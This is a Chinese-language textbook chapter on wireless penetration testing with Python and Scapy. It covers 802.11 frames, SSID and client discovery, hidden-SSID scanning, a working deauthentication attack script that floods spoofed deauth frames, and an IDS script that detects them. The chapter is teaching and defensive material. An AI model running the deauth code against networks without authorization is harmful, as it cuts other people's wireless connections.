


# 第五章：无线渗透测试

无线连接的时代已经实现了灵活性和移动性，但也带来了许多安全问题。在有线连接中，攻击者需要物理接触才能连接和攻击。而在无线连接的情况下，攻击者只需要信号的可用性就可以发动攻击。在继续之前，您应该了解使用的术语：

+   **接入点**（**AP**）：用于将无线设备连接到有线网络。

+   **服务集标识符**（**SSID**）：这是无线局域网的唯一的 0-32 个字母数字标识符。它是人类可读的，简单来说，就是网络名称。

+   **基本服务集标识**（**BSSID**）：这是无线 AP 的 MAC 地址。

+   **信道号**：这代表 AP 用于传输的无线电频率的范围。

由于 AP 的自动设置可能会改变信道号，所以在本章中不要感到困惑。如果您在不同的时间运行相同的程序，信道号可能会改变。

在本章中，我们将涵盖以下概念：

+   查找无线 SSID

+   分析无线流量

+   检测 AP 的客户端

+   无线去认证攻击

+   检测去认证攻击

# 802.11 帧简介

IEEE 将 802.11 和 802.11x 定义为无线局域网技术家族。以下是基于频率和带宽的 802.11 规范：

+   `802.11`：提供带宽高达 1-2 Mbps，使用 2.4 GHz 频段

+   `802.11.a`：提供带宽高达 54 Mbps，使用 5 GHz 频段

+   `802.11.b`：提供带宽高达 11 Mbps，使用 2.4 GHz 频段

+   `802.11g`：提供带宽高达 54 Mbps，使用 2.4 GHz 频段

+   `802.11n`：提供带宽高达 300 Mbps，使用两个频段

所有`802.11`的组件都属于**媒体访问控制**（**MAC**）层或物理层。MAC 层是数据链路层的子类。我们已经在第二章中介绍了数据链路层的**协议数据单元**（**PDU**），也就是帧。

不过，首先让我们了解`802.11`帧格式。`802.11`中存在的三种主要类型的帧是：

+   数据帧

+   控制帧

+   管理帧

这些帧由 MAC 层辅助。下图显示了 MAC 层的格式：


在上图中，显示了三种类型的地址。**地址 1**、**地址 2**和**地址 3**分别是目的地、AP 和源的 MAC 地址。这意味着**地址 2**是 AP 的 BSSID。在本章中，我们的重点将放在管理帧上，因为我们对管理帧的子类型感兴趣。一些常见的管理帧类型包括认证帧、去认证帧、关联请求帧、解除关联帧、探测请求帧和探测响应帧。客户端和 AP 之间的连接是通过各种帧的交换来建立的，如下图所示：



帧交换

上图显示了帧的交换。这些帧包括：

+   **信标帧**：AP 定期发送信标帧来宣传自己的存在。信标帧包含诸如 SSID、信道号和 BSSID 等信息。

+   **探测请求**：无线设备（客户端）发送探测请求以确定范围内有哪些接入点。探测请求包含诸如 AP 的 SSID、支持的速率和特定厂商信息等元素。客户端发送探测请求并等待探测响应。

+   **探测响应**：作为对探测请求的响应，相应的接入点将会回复一个包含能力信息和支持的数据速率的探测响应帧。

+   **认证请求**：客户端发送包含其身份的认证请求帧。

+   **认证响应**：AP 响应认证，表示接受或拒绝。如果存在共享密钥认证，例如 WEP，那么 AP 会以认证响应的形式发送挑战文本。客户端必须将受挑战文本的加密形式发送回 AP。

+   **关联请求**：成功认证后，客户端发送包含其特征的关联请求，例如支持的数据速率和 AP 的 SSID。

+   **关联响应**：AP 发送包含接受或拒绝的关联响应。在接受的情况下，AP 将为客户端创建关联 ID。

我们即将进行的攻击将基于这些帧。

现在，是时候进行实际操作了。在接下来的部分，我们将讨论理论的其余部分。

# 使用 Python 进行无线 SSID 查找和无线流量分析

如果您使用过 Back-Track 或 Kali Linux 进行无线测试，那么您将熟悉`airmon-ng`套件。`airmon-ng`脚本用于在无线接口上启用监视模式。监视模式允许无线设备捕获帧而无需与 AP 关联。我们将在 Kali Linux 上运行所有程序。以下截图显示了如何设置**mon0**：


设置 mon0

运行`airmon-ng`脚本时，它会为无线网卡命名，例如**wlan0**，如前面的截图所示。`airmon-ng start wlan0`命令将在监视模式下启动**wlan0**，而**mon0**将捕获无线数据包。

现在，让我们编写我们的第一个程序，该程序提供三个值：SSID、BSSID 和信道号。程序名称是`ssid_finder_raw.py`。让我们看看代码和解释如下：

1.  导入必要的库：

```py
      import socket 
      import struct
      import shelve 
      import sys
      import traceback
```

1.  为了使用户能够查看先前存储的结果，请运行以下命令：

```py
      ch = raw_input("Press 'Y' to know previous result ")
      print "USE only Ctrl+c to exit "
```

1.  如果用户按下`Y`，则程序将打开`wireless_data.dat`文件并获取信息，例如 SSID、BSSID 和信道号。如果是第一次运行，`wireless_data.dat`文件将不存在：

```py
      try :
        if ch.lower() == 'y':
          s = shelve.open("wireless_data.dat")
          print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
          keys= s.keys()
          list1 = []
          for each in keys:
            list1.append(int(each))
          list1.sort()

          for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
          s.close()
          raw_input("Press any key to continue ")
          except Exception as e :
          print e
          raw_input("Press any key to continue ")
```

1.  该代码创建一个套接字来捕获所有帧并将它们绑定到`mon0`。希望您已经仔细阅读了第三章，*嗅探和渗透测试*。唯一的新东西是`3`。3 参数表示协议号，表示`ETH_P_ALL`。这意味着我们对每个数据包都感兴趣：

```py
      try:
        sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
        sniff.bind(("mon0", 0x0003))

      except Exception as e :
        print e 
```

1.  定义一个`ap_list`列表，稍后将使用。打开名为`wireless_data.dat`的 shelve 文件：

```py
      ap_list =[]
      print "Seq", "\tBSSID\t", "\t\tChannel", "SSID"
      s = shelve.open("wireless_data.dat","n")
```

1.  接收 Beacon 帧，提取`SSID`、`BSSID`和信道号信息，并将其保存在`wireless_data.dat`文件中。

1.  `if fm[radio_tap_lenght] == "\x80"`语法只允许 Beacon 帧。要理解`radio_tap_lenght+4+6+6+6+2+12+1`语法，请参见以下内容：


通过查看截图，您可以了解与`radio_tap_length`一起使用的数字值。

```py
      try:
        while True :
          fm1 = sniff.recvfrom(6000)
         fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          #print radio_tap_lenght
          if fm[radio_tap_lenght] == "\x80" :
            source_addr = 
            fm[radio_tap_lenght+4+6:radio_tap_lenght+4+6+6]
            #print source_addr
            if source_addr not in ap_list:
              ap_list.append(source_addr)
              byte_upto_ssid = radio_tap_lenght+4+6+6+6+2+12+1
              a = ord(fm[byte_upto_ssid])
              list_val = []
              #print a
              bssid = ':'.join('%02x' % ord(b) for b in source_addr)
              #bssid = fm[36:42].encode('hex')
              s_rate_length = ord(fm[byte_upto_ssid+1 +a+1])
              channel = ord(fm[byte_upto_ssid+1 +a+1+s_rate_length+3])
              ssid = fm[byte_upto_ssid+1:byte_upto_ssid+1 +a]
```

1.  将获取的信息保存在`wireless_data.dat`中：

```py
        print len(ap_list),"\t",bssid,"\t",channel,"\t",ssid
        list_val.append(bssid)
        list_val.append(channel)
        list_val.append(ssid)
        seq = str(len(ap_list))
        s[seq]=list_val
       except KeyboardInterrupt:
        s.close()
        sys.exit()

       except Exception as e :
       traceback.print_exc()
        print e 
```

如果要使用*Wireshark*捕获帧，请使用`mon0`模式。以下帧是 Beacon 帧：


Beacon 帧的 Wireshark 表示

上面的截图将清楚地解决您的疑问。截图是不言自明的。您可以看到信道号、SSID 和 BSSID。

我在两张不同的无线 USB 卡上测试了代码。以下是`ssid_finder_raw.py`的输出：


始终按下*Ctrl* + *C* 以存储结果。

现在，让我们编写代码，使用 Scapy 找到 AP 的 SSID 和 MAC 地址。你可能会认为我们已经在原始数据包分析中执行了相同的任务。使用 scapy 编写代码比使用原始套接字更容易，实际上，出于研究目的，你应该了解原始数据包分析。如果你想要一些 Scapy 不知道的信息，原始数据包分析可以让你自由创建所需的嗅探器：

```py
from scapy.all import *
interface = 'mon0'
ap_list = []
def info(fm):
  if fm.haslayer(Dot11):

    if ((fm.type == 0) & (fm.subtype==8)):
      if fm.addr2 not in ap_list:
        ap_list.append(fm.addr2)
        print "SSID--> ",fm.info,"-- BSSID --> ",fm.addr2

sniff(iface=interface,prn=info)
```

让我们从头开始看代码。`scapy.all import *`语句导入了 Scapy 库的所有模块。变量接口设置为`mon0`。声明了一个名为`ap_list`的空列表。在下一行，定义了`info`函数并传递了`fm`参数。

`if fm.haslayer(Dot11):`语句就像一个过滤器，只传递`Dot11`流量；`Dot11`表示 802.11 流量。接下来的`if((fm.type == 0) & (fm.subtype==8)):`语句是另一个过滤器，它传递帧类型为`0`且帧子类型为`8`的流量；类型`0`表示管理帧，子类型`8`表示 Beacon 帧。在下一行，`if fm.addr2 not in ap_list:`语句用于去除冗余；如果 AP 的 MAC 地址不在`ap_list`中，那么它会将列表附加并将地址添加到列表中，如下一行所述。下一行打印输出。最后的`sniff(iface=interface,prn=info)`行使用接口`mon0`嗅探数据，并调用`info()`函数。

以下截图显示了`ssid.py`程序的输出：


我希望你现在理解了`ssid.py`程序。让我们试着找出 AP 的信道号。我们将不得不对代码进行一些修改。修改后的代码如下：

```py
from scapy.all import *
import struct
interface = 'mon0'
ap_list = []
def info(fm):
  if fm.haslayer(Dot11):
    if ((fm.type == 0) & (fm.subtype==8)):
      if fm.addr2 not in ap_list:
        ap_list.append(fm.addr2)
        print "SSID--> ",fm.info,"-- BSSID --> ",fm.addr2, "-- Channel-
         -> ", ord(fm[Dot11Elt:3].info)
        sniff(iface=interface,prn=info)
```

你会注意到我们在这里添加了一件事，那就是`ord(fm[Dot11Elt:3].info)`。

你可能想知道`Dot11Elt`是什么。如果你在 Scapy 中打开`Dot11Elt`，你会得到三个东西，`ID`，`len`和`info`，如下面的输出所示：

```py
  root@Mohit|Raj:~# scapy
  INFO: Can't import python gnuplot wrapper . Won't be able to plot.
  WARNING: No route found for IPv6 destination :: (no default route?)
  lWelcome to Scapy (2.2.0)
  >>> ls(Dot11Elt)
  ID         : ByteEnumField        = (0)
  len        : FieldLenField        = (None)
  info       : StrLenField          = ('')
  >>>
```

查看以下类代码：

```py
class Dot11Elt(Packet):
  name = "802.11 Information Element"
  fields_desc = [ ByteEnumField("ID", 0, {0:"SSID", 1:"Rates", 2:  
  "FHset", 3:"DSset", 4:"CFset", 5:"TIM", 6:"IBSSset", 16:"challenge",
  42:"ERPinfo", 46:"QoS Capability", 47:"ERPinfo", 48:"RSNinfo",    
  50:"ESRates",221:"vendor",68:"reserved"}),
  FieldLenField("len", None, "info", "B"),
  StrLenField("info", "", length_from=lambda x:x.len) ]
```

在前面的类代码中，`DSset`提供了有关信道号的信息，因此`DSset`号是`3`。

让我们不要把它搞得太复杂，让我们简单地使用 scapy 捕获一个数据包：

```py
  >>> conf.iface="mon0"
  >>> frames = sniff(count=7)
  >>> frames
  <Sniffed: TCP:0 UDP:0 ICMP:0 Other:7>
  >>> frames.summary()
  RadioTap / 802.11 Management 8L 84:1b:5e:50:c8:6e > ff:ff:ff:ff:ff:ff   
 / Dot11Beacon / SSID='CITY PG3' / Dot11Elt / Dot11Elt / Dot11Elt /   
  Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / 
  Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / Dot11Elt / 
  Dot11Elt / Dot11Elt / Dot11Elt
  RadioTap / 802.11 Data 8L 84:1b:5e:50:c8:6e > 88:53:2e:0a:75:3f / 
  Dot11QoS / Dot11WEP
  84:1b:5e:50:c8:6e > 88:53:2e:0a:75:3f (0x5f4) / Raw
  RadioTap / 802.11 Control 13L None > 84:1b:5e:50:c8:6e / Raw
  RadioTap / 802.11 Control 11L 64:09:80:cb:3b:f9 > 84:1b:5e:50:c8:6e / 
  Raw RadioTap / 802.11 Control 12L None > 64:09:80:cb:3b:f9 / Raw
  RadioTap / 802.11 Control 9L None > 64:09:80:cb:3b:f9 / Raw
```

在以下截图中，你可以看到`0th`帧中有很多`Dot11Elt`。让我们详细检查`0th`帧：


帧中的 Dot11Elt

现在，你可以看到有几个`<Dot11Elt`。每个`Dot11Elt`有三个字段。`ord(fm[Dot11Elt:3].info)`给出了信道号，它位于第四个位置（根据类代码），即`<Dot11Elt ID=DSset len=1 info='x04'`。我希望你现在理解了`Dot11Elt`。

在 Wireshark 中，我们可以看到以下截图中由`Dot11Elt`表示的输出：


Wireshark 中的 Dot11Elt 表示

在前面的截图中，标记的参数由`Dot11Elt`表示。

`scapt_ssid.py`程序的输出如下：


输出与信道

# 检测 AP 的客户端

你可能想要获取特定 AP 的所有客户端。在这种情况下，你必须捕获探测请求帧。在 scapy 中，这称为`Dot11ProbeReq`。

让我们在以下截图中检查 Wireshark 中的帧：


探测请求帧

探测请求帧包含一些有趣的信息，比如源地址和 SSID，如前面的截图所示。

现在，是时候看看以下代码了：

```py
from scapy.all import *
interface ='mon0'
probe_req = []
ap_name = raw_input("Please enter the AP name ")
def probesniff(fm):
  if fm.haslayer(Dot11ProbeReq):
    client_name = fm.info
    if client_name == ap_name :
      if fm.addr2 not in probe_req:
        print "New Probe Request: ", client_name 
        print "MAC ", fm.addr2
        probe_req.append(fm.addr2)
sniff(iface= interface,prn=probesniff)
```

让我们看看在前面的程序中添加的新内容。用户输入感兴趣的 AP 的 SSID，将存储在`ap_name`变量中。`if fm.haslayer(Dot11ProbeReq):`语句表示我们对探测请求帧感兴趣。`if client_name == ap_name:`语句是一个过滤器，捕获所有包含感兴趣 SSID 的请求。`print "MAC ", fm.addr2`行打印连接到 AP 的无线设备的 MAC 地址。

`probe_req.py`程序的输出如下：


一系列无线设备连接到`CITY PG3`。

# 无线隐藏 SSID 扫描仪

有时，出于安全原因，用户隐藏他们的接入点 SSID，并配置他们的计算机以检测接入点。当您隐藏 SSID 接入点时，Beacon 帧将停止广播它们的 SSID。在这种情况下，我们必须捕获由 AP 的关联客户端发送的所有探测请求、探测响应、重新关联请求、关联响应和关联请求帧。为了我们的实验目的，我隐藏了 SSID，然后运行`ssid_finder_raw.py`代码如下截图所示：


在前面的截图中，您可以清楚地看到第一个 AP 的 SSID 没有显示。

运行`hidden_ssid_finder.py`程序，但在运行程序之前，请确保监视器模式已打开，我们正在使用监视器模式`mon0`：

1.  导入必要的模块：

```py
      import socket 
      import sys
```

1.  创建一个原始套接字，并将其绑定到`mon0`接口：

```py
      sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
```

1.  要求用户输入 AP 的 MAC 地址，并从 MAC 地址中删除冒号：

```py
      mac_ap = raw_input("Enter the MAC ")
      if ":"in mac_ap:
        mac_ap = mac_ap.replace(":","")
```

1.  创建列表和字典：

```py
      processed_client =[]
      filter_dict = {64:'Probe request', 80:'Probe       response',32:'Reassociation request',16:'Association response',       0:'Association request' }
      filter_type = filter_dict.keys()
      probe_request_length = 4+6+6+6+2
```

1.  连续接收`filter_type`字典中定义的帧：

```py
      while True :
        try:
          fm1 = sniff.recvfrom(6000)
          fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          if ord(fm[radio_tap_lenght]) in filter_type:
      dest =fm[radio_tap_lenght+4:radio_tap_lenght+4+6].encode('hex')
            source = fm[radio_tap_lenght+4+6       :radio_tap_lenght+4+6+6].encode('hex')
            bssid = fm[radio_tap_lenght+4+6+6       :radio_tap_lenght+4+6+6+6].encode('hex')
```

1.  查找 AP 的关联客户端：

```py
      if mac_ap == source and dest not in processed_client :
        processed_client.append(dest)
```

1.  查找关联客户端的探测请求帧，并从探测请求帧中提取 SSID：

```py
      if processed_client:
        if ord(fm[radio_tap_lenght]) == 64:
          if source in processed_client:
            ssid_bit = probe_request_length+radio_tap_lenght+1
            lenght_of_ssid= ord(fm[ssid_bit])
            if lenght_of_ssid:
              print "SSID is ",       fm[ssid_bit+1:ssid_bit+1+lenght_of_ssid]
```

1.  优雅地退出，请按*Ctrl* + *C*：

```py
  except KeyboardInterrupt:
    sniff.close()
    print "Bye"
    sys.exit()

  except Exception as e :
    print e
```

让我们运行代码。客户端必须连接到 AP 才能使代码逻辑正常工作：


前面的输出显示只有一个客户端连接到 AP。

# 无线攻击

到目前为止，您已经看到了各种嗅探技术，以收集信息。在本节中，您将看到无线攻击是如何发生的，这是渗透测试中非常重要的主题。

# 去认证（deauth）攻击

去认证帧属于管理帧的一种。当客户端希望与 AP 断开连接时，客户端发送去认证帧。AP 也以回复的形式发送去认证帧。这是正常的过程，但攻击者利用这个过程。攻击者伪造受害者的 MAC 地址，并代表受害者向 AP 发送去认证帧；因此，与客户端的连接被断开。`aireplay-ng`程序是执行去认证攻击的最佳工具。在本节中，您将学习如何使用 Python 执行此攻击。但是，您可以利用`ssid_finder_raw.py`代码的输出，因为`ssid_finder_raw.py`程序会写入一个文件。

现在，让我们看看以下代码：

+   导入必要的模块和库：

```py
      from scapy.all import *
      import shelve 
      import sys
      import os
      from threading import Thread
```

+   以下代码打开`wireless_data.dat`文件，获取信息，并显示给用户：

```py
      def main():
         interface = "mon0"
         s = shelve.open("wireless_data.dat")
         print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
         keys= s.keys()
         list1 = []
         for each in keys:
            list1.append(int(each))
            list1.sort()
         for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
         s.close()
```

+   以下代码要求用户输入 AP 序列号。如果用户想指定任何受害者，那么用户可以提供受害者机器的 MAC；否则，代码将选择广播地址：

```py
        a = raw_input("Enter the seq number of wifi ")
        r = shelve.open("wireless_data.dat")
        print "Are you Sure to attack on ", r[a][0]," ",r[a][2]
        victim_mac = raw_input("Enter the victim MAC or for broadcast 
        press 0 \t")
        if victim_mac=='0':
          victim_mac ="FF:FF:FF:FF:FF:FF"
```

+   所选 AP 正在使用的信道号；以下代码段为`mon0`设置相同的信道号：

```py
        cmd1 = "iwconfig wlan1 channel "+str(r[a][1])
        cmd2 = "iwconfig mon0 channel "+str(r[a][1])
        os.system(cmd1)
        os.system(cmd2)
```

+   这段代码非常容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建去认证数据包。从本章的第一张截图中，您可以检查这些地址：

```py
  BSSID = r[a][0]
  frame= RadioTap()/ Dot11(addr1=BSSID,addr2=victim_mac, addr3=BSSID)/ 
  Dot11Deauth()
  frame1= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ 
  Dot11Deauth()
```

+   以下代码告诉线程攻击去攻击 deauth 攻击：

```py
  if victim_mac!="FF:FF:FF:FF:FF:FF":
    t1 = Thread(target=for_ap, args=(frame,interface))
    t1.start()
  t2 = Thread(target=for_client, args=(frame1,interface))
  t2.start()
```

在最后一行，`sendp(frame,iface=interface, count= 1000, inter= .1)`，`count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔：

```py
def for_ap(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

def for_client(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

if __name__ == '__main__':
  main()
```

`deauth.py`程序的输出如下：


这种攻击的目的不仅是执行去认证攻击，还要检查受害者的安全系统。IDS 应该有能力检测去认证攻击。到目前为止，还没有避免攻击的方法，但可以检测到攻击。

# 检测 deauth 攻击

在本节中，我们将讨论如何检测去认证攻击。这类似于一个无线 IDS，它检测去认证攻击。在这个程序中，我们将找出哪些接入点收到去认证帧以及数量。我们将在这里使用原始套接字来检测攻击。

让我们讨论`deauth_ids.py`程序。确保监视器打开；否则，程序会报错：

+   导入必要的模块和库：

```py
      import socket 
      import Queue
      from threading import Thread
      from collections import Counter
```

+   队列和计数器将在以后使用：

```py
      q1 = Queue.Queue()
      co = Counter()
```

+   以下代码创建并绑定原始套接字到`mon0`：

```py
      try:
        sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
        sniff.bind(("mon0", 0x0003))
      except Exception as e :
        print e 
```

+   以下函数 IDs 接收去认证帧，提取 BSSID，并将其放入全局队列中：

```py
      def ids():
        global q1
        while True :
          fm1 = sniff.recvfrom(6000)
          fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          if ord(fm[radio_tap_lenght]) == 192:
      bssid1 = fm[radio_tap_lenght+4+6+6 :radio_tap_lenght+4+6+6+6]
      bssid = ':'.join('%02x' % ord(b) for b in bssid1)
      q1.put(bssid)
```

+   以下的`insert_frame`函数从全局队列中获取 deauth 帧并制作一个计数器来显示它：

```py
      def insert_frame():
        global q1
        while True:
          mac=q1.get()
          list1 = [mac]
          co.update(list1)
          print dict(co)
```

+   以下代码创建了两个线程，启动了`ids()`和`insert_frame`函数：

```py
      i = Thread(target=ids)
      f = Thread(target=insert_frame)
      i.start()
      f.start()
```

为了执行攻击和检测，我们需要两台安装了 Linux 的机器和一个无线接入点。一台机器将进行攻击，第二台将运行我们的`deauth_ids.py`检测程序。

让我们讨论代码的输出。为了测试目的，运行`deauth_ids.py`，并从第二台机器开始 deauth 攻击：


你可以看到它不断地显示受害者 BSSID，并且它的计数器显示接收到的帧数。让我们在下文中看另一个截图：



正如你所看到的，如果攻击者改变目标，我们的程序可以检测到多个接入点上的攻击。

# 总结

在本章中，我们学习了关于无线帧以及如何使用 Python 脚本和 scapy 库从无线帧中获取 SSID、BSSID 和信道号等信息。我们还学习了如何将无线设备连接到 AP。在信息收集之后，我们转向了无线攻击。我们讨论的第一种攻击是 deauth 攻击，类似于 Wi-Fi 干扰器。在这种攻击中，你必须攻击无线设备并观察 AP 或入侵检测系统的反应。

在第六章中，*蜜罐-为攻击者设置陷阱*，您将学习如何为黑客设置陷阱，如何创建虚假回复或虚假身份。
